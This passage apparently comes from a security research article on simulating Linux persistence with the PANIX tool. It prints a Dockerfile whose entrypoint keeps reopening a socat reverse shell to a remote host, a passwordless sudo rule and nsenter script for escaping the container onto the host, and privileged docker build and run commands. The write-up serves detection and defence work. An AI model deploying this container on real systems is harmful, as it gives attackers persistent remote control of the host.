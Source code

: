 In the next section, we will take a look at an example of a malicious docker container implementation.

### Persistence through T1610 \- Deploy Container: Malicious Docker Container

In this scenario, we will take a look at how to simulate the creation of an exemplary malicious Docker container through PANIX. Within the [setup_malicious_docker_container.sh](https://github.com/Aegrah/PANIX/blob/ae404d5caf74c772436ccaaa0c3ab51cba8c4250/modules/setup_malicious_docker_container.sh) module, PANIX creates a Dockerfile with the following contents:

```
FROM alpine:latest

RUN apk add --no-cache bash socat sudo util-linux procps

RUN adduser -D lowprivuser

RUN echo '#!/bin/bash' > /usr/local/bin/entrypoint.sh \\
	&& echo 'while true; do /bin/bash -c "socat exec:\"/bin/bash\",pty,stderr,setsid,sigint,sane tcp:$ip:$port"; sleep 60; done' >> /usr/local/bin/entrypoint.sh \\
	&& chmod +x /usr/local/bin/entrypoint.sh

RUN echo '#!/bin/bash' > /usr/local/bin/escape.sh \\
	&& echo 'sudo nsenter -t 1 -m -u -i -n -p -- su -' >> /usr/local/bin/escape.sh \\
	&& chmod +x /usr/local/bin/escape.sh \\
	&& echo 'lowprivuser ALL=(ALL) NOPASSWD: /usr/bin/nsenter' >> /etc/sudoers

USER lowprivuser

ENTRYPOINT ["/usr/local/bin/entrypoint.sh"]
```

The Dockerfile sets up a lightweight Alpine Linux container with tools like `bash`, `socat`, and `nsenter`. The `entrypoint.sh` script ensures continuous reverse shell access by repeatedly connecting to a remote server using `socat`. The `escape.sh` script, which is granted passwordless `sudo` permissions, uses `nsenter` to attach to the host's namespaces (e.g., mount, network, PID) via the init process, effectively breaking container isolation.

The container is built using:

`docker build -t malicious-container -f $DOCKERFILE . && \`

Where the `-t` flag tags the container for easy identification, and `-f` specifies the Dockerfile path.

It is then run with:

`docker run -d --name malicious-container --privileged --pid=host malicious-container`

Where the `--privileged` flag allows full access to host resources, bypassing Docker’s isolation mechanisms, while `--pid=host` shares the host's process namespace, enabling the container to interact directly with host-level processes. 

To test this technique, Docker must be installed, and the user running the simulation must either have root or docker group permissions. Let’s run the payload and examine the logs through the execution of the following PANIX command:
